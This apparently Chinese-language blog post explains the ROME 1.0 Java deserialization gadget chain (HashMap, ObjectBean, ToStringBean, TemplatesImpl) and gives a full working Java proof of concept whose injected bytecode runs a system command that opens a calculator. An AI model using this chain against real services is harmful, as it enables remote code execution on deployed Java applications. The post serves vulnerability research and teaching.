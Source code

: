 # Java-ROME

  
  
&lt;!--more--&gt;  
## 0x01 前言  
```xml  
&lt;dependency&gt;    
  &lt;groupId&gt;rome&lt;/groupId&gt;    
  &lt;artifactId&gt;rome&lt;/artifactId&gt;    
  &lt;version&gt;1.0&lt;/version&gt;    
&lt;/dependency&gt;  
```  
ROME 是一个可以兼容多种格式的 feeds 解析器，可以从一种格式转换成另一种格式，也可返回指定格式或 Java 对象。  
ROME 兼容了 RSS (0.90, 0.91, 0.92, 0.93, 0.94, 1.0, 2.0), Atom 0.3 以及 Atom 1.0 feeds 格式。  
## 0x02 前置知识  
`com.sun.syndication.feed.impl.ObjectBean`是 Rome 提供的一个封装类型，初始化时提供了一个 Class 类型和Object 对象实例进行封装。  
ObjectBean 也是使用委托模式设计的类，其中有三个成员变量，分别是`EqualsBean/ToStringBean/CloneableBean`类，这三个类为`ObjectBean`提供了`equals`、`toString`、`clone`以及`hashCode`方法  
来看一下`ObjectBean`的`hashCode`方法，会调用`EqualsBean`的`beanHashCode`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162338396.png)
会调用`EqualsBean`中保存的`_obj`的`toString()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162339922.png)
这个`ToStringBean`的`toString()`方法可以触发`_obj`实例的全部`getter`方法，可以用来触发`TemplatesImpl`的利用链  
在`HashMap`中的`readObject`正好调用了`hashCode()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162354073.png)
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202411162355420.png)
构造`exp`  
```java  
import javassist.ClassPool;    
import javassist.CtClass;    
    
import java.io.IOException;    
import java.io.ByteArrayOutputStream;    
    
import javassist.CannotCompileException;    
import javassist.NotFoundException;    
    
import java.lang.reflect.Field;    
    
    
import java.util.UUID;    
    
import com.sun.syndication.feed.impl.ObjectBean;    
import com.sun.syndication.feed.impl.ToStringBean;    
    
import java.io.*;    
import java.util.Base64;    
    
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;    
    
import javax.xml.transform.Templates;    
import java.util.HashMap;    
    
public class Poc {    
    
    public static void main(String[] args) throws Exception {    
        byte[] code = getTemplates();    
        byte[][] codes = {code};    
        // TemplatesImpl    
        TemplatesImpl templates = new TemplatesImpl();    
        setFieldValue(templates, &#34;_name&#34;, &#34;useless&#34;);    
        setFieldValue(templates, &#34;_tfactory&#34;, null);    
        setFieldValue(templates, &#34;_bytecodes&#34;, codes);    
        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);    
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);    
        HashMap&lt;Object, String&gt; map = new HashMap&lt;&gt;();    
        map.put(objectBean, &#34;huahua&#34;);    
        String payload = serialize(map);    
        unserialize(payload);    
    }    
    
    public static String serialize(Object object) throws IOException {    
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();    
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);    
        objectOutputStream.writeObject(object);    
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());    
    }    
    
    public static void unserialize(String base) throws IOException, ClassNotFoundException {    
        byte[] result = Base64.getDecoder().decode(base);    
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(result);    
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);    
        objectInputStream.readObject();    
    }    
    
    public static void setFieldValue(Object object, String field, Object arg) throws NoSuchFieldException, IllegalAccessException {    
        Field f = object.getClass().getDeclaredField(field);    
        f.setAccessible(true);    
        f.set(object, arg);    
    }    
    
    public static byte[] getTemplates() throws CannotCompileException, IOException, NotFoundException {    
        ClassPool classPool = ClassPool.getDefault();    
        // 生成一个随机的类名    
        String randomClassName = &#34;Test_&#34; &#43; UUID.randomUUID().toString().replace(&#34;-&#34;, &#34;&#34;);    
        CtClass ctClass = classPool.makeClass(randomClassName);    
        ctClass.setSuperclass(classPool.get(&#34;com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet&#34;));    
        String block = &#34;Runtime.getRuntime().exec(\&#34;open -a Calculator\&#34;);&#34;;    
        ctClass.makeClassInitializer().insertBefore(block);    
        return ctClass.toBytecode();    
    }    
    
}  
```  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/java-rome/  

